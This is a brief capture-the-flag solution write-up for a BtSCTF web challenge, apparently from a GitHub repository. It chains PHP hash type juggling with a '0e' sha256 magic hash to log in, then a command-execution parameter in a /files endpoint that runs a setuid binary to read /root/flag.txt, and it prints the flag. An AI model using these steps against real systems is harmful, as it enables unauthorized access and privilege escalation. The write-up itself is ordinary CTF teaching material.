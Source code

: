 # Solution
Find user with hash(sha256) starting "0e.." in `/users.json`. Login using the user email and password at `https://github.com/spaze/hashes/blob/master/sha256.md`

In `/files`, refresh button will post `/files?cmd=ls&token=120349812450928137590234857230945823745`. Found binary with setuid in `/home/minicms/file_JeqsmJ6xwH.bin`. Execute this `/files?cmd=/home/minicms/file_JeqsmJ6xwH.bin+"cat+/root/flag.txt"&token=120349812450928137590234857230945823745` to get the flag. 

Flag:`BtSCTF{juggl3_php_qu173_4444w3s0m3}`

Solved by: 0xad3n
